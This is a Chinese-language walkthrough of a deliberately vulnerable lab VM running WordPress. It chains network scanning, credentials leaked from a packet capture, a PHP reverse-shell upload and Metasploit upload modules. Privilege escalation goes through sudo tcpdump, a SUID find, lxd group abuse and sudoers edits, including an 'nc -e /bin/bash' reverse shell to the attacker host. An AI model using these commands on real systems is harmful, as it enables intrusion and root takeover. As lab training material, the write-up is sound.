 #  mynew
.cap文件用wireshark打开即可！ 分析文件

sudo -l 和suid 联合提权
sudo -l 和cron 联合提权
lxd提权
# 

VMware双击打开nat模式即可！

1、nmap 192.168.253.0/24 -sP
Nmap scan report for 192.168.253.175
Host is up (0.00031s latency).


2、nmap 192.168.253.175 -p- -A
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 4.9.8


3、web信息收集

访问：
http://192.168.253.175/
发下拿着是wordpress博客站！

dirb爆破出：http://192.168.253.175/ipdata/

访问发现：analyze.cap   下载！

这是.cap文件，这在项目四和项目七介绍过，用wireshark打开即可！


温故知新：
----------------
项目四：
wireshark对流量界面右键->追踪流量->TCP流量！
获得tcp.stream eq 1和tcp.stream eq 2等信息：
tcp.stream eq 1：第一个流显示了一个文件secret_stuff.txt
tcp.stream eq 2：sup3rs3cr3tdirlol
----------------
wireshark derp.pcap 分析！

1)tcp.stream eq 48    ---tcp追踪  如果追踪UDP就改即可
或者：
2）frame contains mrderp  /login  ---查看流量中登录信息
3）http.request.method == "POST"  ---过滤查看POST请求信息打开双击查看

log=mrderp&pwd=derpderpderpderpderpderpderp

----------------

wireshark analyze.cap   ---打开
在Hypertext Transfer Protocol中可以看到登录信息！
或者右键->追踪流->tcp流也可以！

http://192.168.253.175/wp-admin/
webdeveloper
Te5eQg&4sBS!Yr$)wf%(DcAd

密码真复杂，成功登录！


4、文件上传
--------------------------------
1）方法1：
这里复制php-reverse-shell.php到本地目录：
cp /usr/share/webshells/php/php-reverse-shell.php .

在项目二十三中：
点击：Appearance->Add New->Upload Theme->文件上传

dirb爆破前面是枚举出：
http://192.168.253.175/wp-content/uploads
在这目录下运行开启nc监听即可！

--------------------------------
2）方法2：
点击：Appearance->Editor修改php内容：
切换twenty sixteen后，发现可以写入！

将php-reverse-shell.php内容写入即可！

nc -vlp 1234
访问：
http://192.168.253.175/wp-content/themes/twentysixteen/404.php

python3 -c 'import pty; pty.spawn("/bin/bash")'
成功获得反弹shell！
--------------------------------
3）方法3---插件处上传

点击Plugins->Editor修改php内容！
Hello Dolly->Activate 反弹shell成功
--------------------------------
3）方法3 ---MSF 文件上传反弹shell

在框架添加插件：ReFlex Gallery
安装完成点击：Activate  ---启动

项目七中回顾：类似方法
use exploit/unix/webapp/wp_reflexgallery_file_upload
set rhosts 192.168.253.175
exploit


msf利用：
msfconsole
search Slideshow Gallery
use exploit/unix/webapp/wp_slideshowgallery_upload
set rhosts 192.168.4.58
set targeturi /weblog
set wp_user admin
set wp_password admin
run


5、内部信息收集

1）LXD权限    108(lxd)   ---用户是lxd组成员
root      2412  0.0  1.9 446464 19404 ?        Ssl  11:15   0:00 /usr/lib/lxd/lxd
/var/log/lxd/lxd.log


2）信息泄露
/var/www/html/wp-config.php
define('DB_NAME', 'wordpress');
define('DB_USER', 'webdeveloper');
define('DB_PASSWORD', 'MasterOfTheUniverse');
define('DB_HOST', 'localhost');


6、提权

ssh webdeveloper@192.168.253.175
MasterOfTheUniverse

---------------------------------------
方法1：sudo all 提权

sudo -l

User webdeveloper may run the following commands on webdeveloper:
    (root) /usr/sbin/tcpdump

项目二十五用过该提权：
https://gtfobins.github.io/gtfobins/tcpdump/

echo "nc -e /bin/bash 192.168.253.166 9988" > dayu
chmod +x dayu
sudo tcpdump -ln -i eth1 -w /dev/null -W 1 -G 1 -z /tmp/dayu -Z root
发现无法获得反弹shell，因为该环境的nc -e不允许，版本太低了nc！


查看是否存在find命令setuid执行权限：
find / -perm -4000 2>/dev/null | grep find

echo "chmod u+s /usr/bin/find"> shell.sh
chmod +x shell.sh
sudo /usr/sbin/tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/shell.sh -Z root

创建完成确认find命令是否成功被赋予setuid权限：
find / -perm -4000 2>/dev/null | grep find
执行find命令开始提权
find /tmp -exec sh -i  \;   ---发现没有获得root权限
find . -exec /bin/sh -p \;  --- -q执行即可

-i eth0 从指定网卡捕获数据包
-w /dev/null 将捕获到的数据包输出到空设备（不输出数据包结果）
-W [num] 指定抓包数量
-G [rotate_seconds] 每rotate_seconds秒一次的频率执行-w指定的转储
-z [command] 运行指定的命令
-Z [user] 指定用户执行命令

---------------------------------------
方法2：滥用该lxd组来重新挂载文件系统并更改root拥有的文件
参考：
https://reboare.github.io/lxd/lxd-escape.html

项目19~20详细介绍过：

lxd init   ----一直回车

创建了一个lxc容器：
lxc init ubuntu:16.04 test -c security.privileged=true

分配了安全权限，并将整个磁盘挂载到/mnt/root：
lxc config device add test whatever disk source=/ path=/mnt/root recursive=true
这时候会下载几分钟！
lxc start test
lxc exec test bash
这时候挂载的test 乌班图容器就挂载好了，执行命令：

echo "%webdeveloper ALL=(ALL:ALL) ALL" >> /mnt/root/etc/sudoers

exit 
sudo su

---------------------------------------



拓展小知识：

echo 'echo "%webdeveloper ALL=(ALL:ALL) ALL" >> /etc/sudoers' > test.sh
chmod +x test.sh
sudo /usr/sbin/tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/test.sh -Z root
sudo -l   ---这时候就拥有所有权了

sudo su   ---获得root权限！
























































